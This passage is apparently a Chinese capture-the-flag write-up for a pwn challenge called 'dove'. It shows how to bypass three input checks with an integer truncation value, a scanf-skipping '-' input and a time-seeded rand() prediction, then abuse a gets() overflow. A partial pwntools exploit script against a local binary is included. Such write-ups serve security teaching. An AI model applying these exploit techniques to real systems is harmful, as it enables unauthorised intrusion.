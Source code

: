 ```cpp
		win_count += talk(choice);
	}
	else {
		win_count += talk(rand() % 10);
	}
```
第二个check是输入一个int 如果小于10就调用talk   
我们需要跳过这个输入，scanf在接受无效值时会跳过赋值， **正负号+ -** 是可以跳过scanf又不结束程序的无效值。  
或者输入一个过大的整数也能跳过输入，比如 **把第一次的输入复制一次** 也行  
```cpp
scanf("%d", &choice);
	if (choice < 10) {
		win_count += talk(choice);
	}
	else {
		win_count += talk(rand() % 10);
	}
```
第三个check是输入一个int 和一个当前时间（精确到秒）的随机数，如果随机数输入正确就进行talk  
因为是精确到秒的随机种子，所以我们只要进行到这一步时候本机也生成一个随机数发送过去就是一致的  
```cpp
int x = 0;
	srand(time(0));
	choice = 0;
	int y = rand();
	scanf("%d %d", &choice, &x);
	if (y == x) {
		win_count += talk(choice);
	}
	else {
		win_count += talk(rand() % 10);
	}
```
最终会接受一个a字符串溢出，覆盖后边的变量win_flag就能完成PWN  
```cpp
char* a = "";
int win_flag = 0;
if (win_count > 2) {
		gets(&a);
	}
	else {
		puts("\n加油，再试一次吧！");
	}
```
整个题目脚本如下：  
```python
from pwn import *
import ctypes

p=process("./dove")

libc = ctypes.CDLL('/lib/x86_64-linux-gnu/libm.so.6') # 预先加载libc减少延迟

print(p.recv().decode())
p.sendline(b"-9223372036854775798") # longlong < 10, 转int之后正好=10

print(p.recv().decode())
p.sendline(b"-") # 跳过scanf 或者用一个很大的数字也可以 比如上边的-92233...

libc.srand(libc.time())
print(p.recv().decode())
p.sendline(b"10 "+str(libc.rand()).encode()) #同步生成随机数

print(p.recv().decode())
```